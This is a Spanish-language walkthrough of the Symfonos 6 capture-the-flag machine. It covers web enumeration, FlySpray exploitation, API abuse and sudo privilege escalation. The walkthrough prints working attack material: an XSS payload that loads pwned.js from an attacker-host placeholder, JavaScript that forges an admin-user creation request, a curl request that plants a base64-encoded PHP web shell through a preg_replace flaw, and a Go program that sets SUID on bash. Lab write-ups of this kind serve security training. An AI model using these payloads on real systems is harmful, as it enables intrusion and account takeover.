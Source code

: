 # Symfonos 6

**Sistema Operativo**: Linux

**Dificultad**: Media

**Técnicas Vistas**: Web Enumeration /
FlySpray Exploitation /
Abusing FlySpray / Cross Site Scripting (XSS) /
Getting the administrator to create a new privileged user through XSS /
Information Leakage /
Gitlab Enumeration /
Abusing API + Preg_Replace to achieve RCE on the creation of a new post /
Abusing sudoers privilege (go) [Privilege Escalation] 

Te prepara para las **Certificaciones**: eWPT /
eWPTXv2 /
OSWE /
eCPPTv2 /
eCPTXv2 

![image](https://github.com/user-attachments/assets/209dae1a-8407-4cc4-95c4-9a5e899058e6)

# Reconocimiento

Aplicamos un barrido en la red local utilizando `arp-scan` para encontrar la IP de la maquina victima:
![image](https://github.com/user-attachments/assets/4f811da8-2144-4421-aa50-31cd3733c28e)
- `-I eth0` -> Mi interfaz grafica.
- `--localnet` -> Red local.
- `--ignoredups` -> Que ignore duplicados.



Utilizando `nmap` vemos los puertos abiertos.



![image](https://github.com/user-attachments/assets/dbcc4648-08ff-4126-8cda-afcb1d2dea2c)
- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
- `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"


Utilizando `nmap` lanzamos los scripts mas comunes.



![image](https://github.com/user-attachments/assets/58c43f4f-d792-4f2b-9605-a7e27c5318b0)
- `OpenSSH 7.4` -> Versión SSH desactualizada
- `PHP 5.6.40` -> Versión PHP desactualizada

Utilizando `gobuster` encontramos la carpeta **flyspray**
![image](https://github.com/user-attachments/assets/d3f4cb9e-e7a8-471c-ba33-279954cb5678)
- `dir` ->  Buscar directorios 
- `-u` -> Indicar URL
- `-w` ->  Indicar diccionario que voy a utilizar
- `-t` -> Numero de hilos que voy a usar
- `-x` -> Extensiones que quiero que pruebe
- `--add-slash` -> Que coloque una barra al final
- `grep -v "500"` ->  No quiero ver código de estado 500

Simplemente nos registramos
![image](https://github.com/user-attachments/assets/a1b0ed98-681a-4e35-975e-a41f31258032)

---

# CSRF

Utilizaremos este **exploit** para explotarlo:

https://www.exploit-db.com/exploits/41918 

En el campo "Real Name" colocaremos ` "><script src=http://IPATACANTE/pwned.js></script>  `
![image](https://github.com/user-attachments/assets/a2c821bb-02e3-4cfc-9ae8-a8f8eaf01632)



Creamos el archivo `pwned.js`, el cual creara un usuario "hacker" y de contraseña "12345678" con privilegios **root**.

```
var tok = document.getElementsByName('csrftoken')[0].value;

var txt = '<form method="POST" id="hacked_form" action="index.php?do=admin&area=newuser">'
txt += '<input type="hidden" name="action" value="admin.newuser"/>'
txt += '<input type="hidden" name="do" value="admin"/>'
txt += '<input type="hidden" name="area" value="newuser"/>'
txt += '<input type="hidden" name="user_name" value="hacker"/>'
txt += '<input type="hidden" name="csrftoken" value="' + tok + '"/>'
txt += '<input type="hidden" name="user_pass" value="12345678"/>'
txt += '<input type="hidden" name="user_pass2" value="12345678"/>'
txt += '<input type="hidden" name="real_name" value="root"/>'
txt += '<input type="hidden" name="email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="verify_email_address" value="root@root.com"/>'
txt += '<input type="hidden" name="jabber_id" value=""/>'
txt += '<input type="hidden" name="notify_type" value="0"/>'
txt += '<input type="hidden" name="time_zone" value="0"/>'
txt += '<input type="hidden" name="group_in" value="1"/>'
txt += '</form>'

var d1 = document.getElementById('menu');
d1.insertAdjacentHTML('afterend', txt);
document.getElementById("hacked_form").submit();
```

Abrimos con Python el puerto 80, donde se encuentra nuestro `pwned.js`.



![image](https://github.com/user-attachments/assets/d9fb5817-56f7-4177-91c9-bb655895b98e)

Ponemos un comentario



![image](https://github.com/user-attachments/assets/2f28b883-fbdb-4f20-837a-029608be1659)



Usuario: achilles,
Contraseña: h2sBr9gryBunKdF9



![image](https://github.com/user-attachments/assets/b96c42ea-07e4-43a0-9c64-8a78a4265ea6)

Nos autenticamos como **achilles** en http://symfonos.local:3000 



![image](https://github.com/user-attachments/assets/4110883e-2d2d-4e41-95d6-5d8daa7710b0)

-----


# Explotación de api

Una vez adentro  en los repositorios de achilles, investigando vamos a ver:

Preg_replace



![image](https://github.com/user-attachments/assets/0c2556e6-e1c1-43ea-89ad-3f57331d0daf)
- ` /.*/e ` -> Una expresion regular con **Modificador e** -> vulnerable (le podes meter código php)
- `$content` -> contenido
- `"WIN"` -> una palabra

-----

### Investigando mas vamos armar esta URL api:

curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" 

Luego encontraremos que me pide un campo "username" y un campo "password".



![image](https://github.com/user-attachments/assets/335a9400-6486-436c-9680-594080a86d9c)


- ` curl -s -X POST "http://symfonos.local:5000/ls2o4g/v1.0/auth/login" -H "Content-Type: application/json" -d '{"username":"achilles", "password":"h2sBr9gryBunKdF9"}' `

- `-H` -> El Content Type para que me reconozca la data json
- `-d` -> Data en json que quiero mandar
- `username` -> campo username
- `password` -> campo password

Esto nos dará un json web token (pero no tenemos el secreto), asi que por ahora no nos sirve.
Vemos que el "id":1 -> Nos va a servir para explotar el preg_replace 



![image](https://github.com/user-attachments/assets/f5923926-b674-44f6-bc7c-9c8019f50b0c)


---

Vemos que indicando una petición por `PATCH`, y pasando el `id` (que es 1), podemos actualizar el post que esta en http://symfonos.local/posts/ 



![image](https://github.com/user-attachments/assets/c8da2743-dffe-4681-a9a6-f85f9b298fdb)

Al parecer necesitamos poner un campo "text"



![image](https://github.com/user-attachments/assets/d3b97eb3-18ab-4df5-9f8b-977a9304d1be)




Pongo en base64 este script php:



![image](https://github.com/user-attachments/assets/ee6ad1f0-b980-49c8-bc73-41822176ffc2)


- `  curl -s -X PATCH "http://symfonos.local:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MjE0ODU3NDAsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.SPUuZ3ybrOID6ktLJNDysNiJK_t97wdwCp5w18puiqg" -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKIHN5c3RlbSgkX0dFVFsnY21kJ10pOwo/Pgo=\'))"}'   `


- `file_put_contents` -> Crear un archivo y ponerle lo que quieras.

- `base64_decode` -> decodificar el  script php en base64 que hicimos

Query para ganar acceso a la maquina:



![image](https://github.com/user-attachments/assets/593c465a-c4ba-41ce-8f50-8787b5fe0dc8)
![image](https://github.com/user-attachments/assets/54833dc5-a1fa-4111-8dff-15866f1daf30)

-------

# Escalada de privilegios

Nos conectamos como achilles



![image](https://github.com/user-attachments/assets/2ff56b4e-e61e-4a46-b6a4-f269a9171b45)


Con `sudo -l` vemos que podemos ejecutar el binario `go` como root.



![image](https://github.com/user-attachments/assets/6dda3791-38b1-4c56-b0c1-734ff06084d5)


Script de `go` , para ponerle SUID a la bash

https://zetcode.com/golang/exec-command/

```go
package main

import (
    "log"
    "os/exec"
)

func main() {

    cmd := exec.Command("chmod", "u+s", "/bin/bash")

    err := cmd.Run()

    if err != nil {
        log.Fatal(err)
    }
}
```

Ejecutamos con `sudo /usr/local/go/bin/go run go.go` 



![image](https://github.com/user-attachments/assets/634f37ef-7dbe-4d95-b62e-0db8308fd913)



- `go.go ` -> Nombre de mi script
- `run` -> para que inicie mi script

Flag Final:



![image](https://github.com/user-attachments/assets/f0572425-da98-4098-bc91-e878ca7193ea)
